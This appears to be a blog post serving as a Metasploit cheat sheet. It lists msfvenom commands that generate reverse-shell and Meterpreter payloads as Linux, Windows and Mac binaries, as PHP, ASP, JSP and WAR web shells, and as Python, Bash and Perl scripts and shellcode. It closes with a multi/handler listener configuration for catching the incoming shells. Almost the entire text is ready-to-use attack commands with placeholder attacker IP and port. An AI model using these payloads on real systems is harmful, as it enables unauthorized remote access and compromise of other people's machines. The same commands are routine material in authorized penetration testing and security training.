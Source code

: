 ```yaml
---
title: Generate payload with MSF

categories:
  - Technical
tags:
  - Crack
date: 2020-08-20 12:15:05
---
```


![Banner](http://leiblog.wang/static/image/2020/8/snowcabin.jpg)

Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. Multiple payloads can be created with this module and it helps something that can give you a shell in almost any situation. For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

msfvenom -l

<!-- more -->

**Binaries:**

**Linux**

```zsh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows**

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac**

```zsh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web Payloads
```

**PHP**

```zsh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP**

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP**

```zsh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR**

```zsh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

Scripting Payloads
```

**Python**

```zsh
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash**

```zsh
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl**

```zsh
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

**Shellcode:**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

**Linux Based Shellcode**

```zsh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode**

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode**

```zsh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```
use exploit/multi/handler

set PAYLOAD <Payload name>

set LHOST <LHOST value>

set LPORT <LPORT value>

set ExitOnSession false

exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
